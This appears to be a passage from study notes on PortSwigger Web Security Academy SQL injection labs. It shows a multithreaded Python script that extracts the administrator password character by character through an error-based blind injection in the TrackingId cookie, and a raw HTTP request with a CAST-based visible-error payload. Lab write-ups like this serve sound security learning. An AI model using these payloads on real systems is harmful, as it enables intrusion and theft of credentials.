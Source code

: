 ```python
lock = threading.Lock()

def try_char(position, char):
    injection = f"{TRACKING_ID}' AND (SELECT CASE WHEN (username = 'administrator' AND SUBSTR(password,{position + 1},1)='{char}') THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE ROWNUM = 1) = 'a"
    cookies = {
        "TrackingId": injection,
        "session": SESSION_COOKIE
    }

    response = requests.get(URL, cookies=cookies)

    if STOP_INDICATOR == response.status_code:
        with lock:
            result[position] = char
            print(f"[+] Found char at pos {position+1}: {char}")

for i in range(password_length):
    print(f"[*] Brute-forcing position {i+1}")
    with ThreadPoolExecutor(max_workers=max_threads) as executor:
        futures = [executor.submit(try_char, i, c) for c in charset]

        while not result[i]:
            pass

print(f"\n[✓] Final result: {''.join(result)}")

```

#### Lab: Visible error-based SQL injection

- Casting to a int/char could leed to information leak:

```html
GET / HTTP/2
Host: <YOUR_LAB>.web-security-academy.net
Cookie: TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--; session=QY9I2EVaMVd99kcRNQvc6nIEFJ1c5CHQ
Sec-Ch-Ua: "Not)A;Brand";v="8", "Chromium";v="138"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: SomeAgent
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://<YOUR_LAB>.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

```
